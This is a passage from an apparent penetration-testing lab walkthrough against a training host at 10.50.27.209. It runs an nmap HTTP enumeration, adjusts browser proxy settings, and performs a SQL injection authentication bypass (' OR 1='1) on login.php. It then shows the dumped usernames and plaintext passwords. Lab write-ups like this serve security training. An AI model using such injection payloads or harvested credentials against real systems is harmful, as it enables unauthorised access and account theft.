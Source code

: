 Step2: Perform enumeration on the target IP on port 80

student@lin-ops:~$ nmap -Pn -sT 10.50.27.209 -p 80 --script http-enum.nse

![Alt Text](images/image_2.png)

Step 3: Once you do the enumeration make sure to change the proxy settings on the browser.

Settings---general---network settings---no proxy

![Alt Text](images/image_3.png)

Step 5: Login to the website and perform SQL Injection

http://10.50.27.209/login.php? username=tom' OR 1='1 & passwd=tom' OR 1='1

We get following information:

Array ( [0] => user2 [name] => user2 [1] => RntyrfVfNER78 [pass] => RntyrfVfNER78 ) 1

Array ( [0] => user3 [name] => user3 [1] => Obo4GURRnccyrf [pass] => Obo4GURRnccyrf )

1Array ( [0] => Lee_Roth [name] => Lee_Roth [1] => anotherpassword4THEages [pass] => anotherpassword4THEages )

![Alt Text](images/image_4.png)

Step 6: Enumerate the scripts from the website http://10.50.27.209/scripts/

We get following script:

![Alt Text](images/image_5.png)
